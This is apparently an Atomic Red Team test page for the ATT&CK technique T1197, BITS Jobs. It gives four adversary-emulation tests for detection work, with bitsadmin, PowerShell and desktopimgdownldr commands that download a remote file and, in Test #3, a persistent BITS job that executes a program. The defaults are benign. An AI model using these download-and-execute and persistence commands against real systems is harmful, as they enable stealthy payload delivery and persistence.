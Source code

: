 # T1197 - BITS Jobs
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1197)
<blockquote>Adversaries may abuse BITS jobs to persistently execute or clean up after malicious payloads. Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through [Component Object Model](https://attack.mitre.org/techniques/T1559/001) (COM). (Citation: Microsoft COM) (Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.

The interface to create and manage BITS jobs is accessible through [PowerShell](https://attack.mitre.org/techniques/T1059/001)  (Citation: Microsoft BITS) and the [BITSAdmin](https://attack.mitre.org/software/S0190) tool. (Citation: Microsoft BITSAdmin)

Adversaries may abuse BITS to download, execute, and even clean up after running malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls. (Citation: CTU BITS Malware June 2016) (Citation: Mondok Windows PiggyBack BITS May 2007) (Citation: Symantec BITS May 2007) BITS enabled execution may also enable persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots). (Citation: PaloAlto UBoatRAT Nov 2017) (Citation: CTU BITS Malware June 2016)

BITS upload functionalities can also be used to perform [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048). (Citation: CTU BITS Malware June 2016)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Bitsadmin Download (cmd)](#atomic-test-1---bitsadmin-download-cmd)

- [Atomic Test #2 - Bitsadmin Download (PowerShell)](#atomic-test-2---bitsadmin-download-powershell)

- [Atomic Test #3 - Persist, Download, & Execute](#atomic-test-3---persist-download--execute)

- [Atomic Test #4 - Bits download using desktopimgdownldr.exe (cmd)](#atomic-test-4---bits-download-using-desktopimgdownldrexe-cmd)


<br/>

## Atomic Test #1 - Bitsadmin Download (cmd)
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | %temp%&#92;bitsadmin1_flag.ps1|


#### Attack Commands: Run with `command_prompt`! 


```cmd
bitsadmin.exe /transfer /Download /priority Foreground #{remote_file} #{local_file}
```

#### Cleanup Commands:
```cmd
del #{local_file} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Bitsadmin Download (PowerShell)
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload leveraging PowerShell

Upon execution you will find a github markdown file downloaded to the Temp directory

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | $env:TEMP&#92;bitsadmin2_flag.ps1|


#### Attack Commands: Run with `powershell`! 


```powershell
Start-BitsTransfer -Priority foreground -Source #{remote_file} -Destination #{local_file}
```

#### Cleanup Commands:
```powershell
Remove-Item #{local_file} -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Persist, Download, & Execute
This test simulates an adversary leveraging bitsadmin.exe to schedule a BITS transferand execute a payload in multiple steps.
Note that in this test, the file executed is not the one downloaded. The downloading of a random file is simply the trigger for getting bitsdamin to run an executable.
This has the interesting side effect of causing the executable (e.g. notepad) to run with an Initiating Process of "svchost.exe" and an Initiating Process Command Line of "svchost.exe -k netsvcs -p -s BITS"
This job will remain in the BITS queue until complete or for up to 90 days by default if not removed.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_path | Path of command to execute | path | C:&#92;Windows&#92;system32&#92;notepad.exe|
| bits_job_name | Name of BITS job | string | AtomicBITS|
| local_file | Local file path to save downloaded file | path | %temp%&#92;bitsadmin3_flag.ps1|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|


#### Attack Commands: Run with `command_prompt`! 


```cmd
bitsadmin.exe /create #{bits_job_name}
bitsadmin.exe /addfile #{bits_job_name} #{remote_file} #{local_file}
bitsadmin.exe /setnotifycmdline #{bits_job_name} #{command_path} ""
bitsadmin.exe /resume #{bits_job_name}
timeout 5
bitsadmin.exe /complete #{bits_job_name}
```

#### Cleanup Commands:
```cmd
del #{local_file} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - Bits download using desktopimgdownldr.exe (cmd)
This test simulates using desktopimgdownldr.exe to download a malicious file
instead of a desktop or lockscreen background img. The process that actually makes 
the TCP connection and creates the file on the disk is a svchost process (“-k netsvc -p -s BITS”) 
and not desktopimgdownldr.exe. See https://labs.sentinelone.com/living-off-windows-land-a-new-native-file-downldr/

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| download_path | Local file path to save downloaded file | path | SYSTEMROOT=C:&#92;Windows&#92;Temp|
| cleanup_path | path to delete file as part of cleanup_command | path | C:&#92;Windows&#92;Temp&#92;Personalization&#92;LockScreenImage|
| cleanup_file | file to remove as part of cleanup_command | string | *.md|


#### Attack Commands: Run with `command_prompt`! 


```cmd
set "#{download_path}" && cmd /c desktopimgdownldr.exe /lockscreenurl:#{remote_file} /eventName:desktopimgdownldr
```

#### Cleanup Commands:
```cmd
del #{cleanup_path}\#{cleanup_file} >null 2>&1
```





<br/>
